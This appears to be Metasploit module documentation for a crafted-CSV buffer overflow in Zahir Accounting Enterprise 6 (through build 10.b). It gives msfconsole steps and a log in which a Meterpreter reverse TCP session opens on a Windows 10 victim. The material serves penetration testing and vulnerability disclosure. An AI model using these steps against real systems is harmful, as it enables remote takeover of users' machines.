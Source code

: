 ## Description

Zahir Accounting Enterprise 6 through build 10.b contains a buffer overflow vulnerability in its Import file functionality, which can be triggered with a crafted CSV file.

## Vulnerable Application

[Zahir Enterprise 6](http://zahiraccounting.com/files/zahir-accounting-6-free-trial.zip) through build 10.b

[Update to build 10b](http://zahirsoftware.com/zahirupdate/Zahir_SMB_6_Build10b%20-%20MultiUser.zip)

## Verification Steps

1. `./msfconsole -q`
2. `use exploit/windows/fileformat/zahir_enterprise_plus_csv`
3. `run`
4. `handler -p <payload> -H <lhost> -P <lport>`
5. From Zahir Application. File -> Import -> Import from File -> Select option -> Specify msf generated file -> Click through to Process
6. Get a session

## Scenarios

### Zahir Enterprise 6 build 10b on Windows 10 x64

```
msf5 exploit(windows/fileformat/zahir_enterprise_plus_csv) > 
[*] Started reverse TCP handler on 172.22.222.130:4444 
[*] Sending stage (179779 bytes) to 172.22.222.200
[*] Meterpreter session 4 opened (172.22.222.130:4444 -> 172.22.222.200:49934) at 2018-10-04 10:09:01 -0500
sessions -i 4
[*] Starting interaction with 4...

meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```
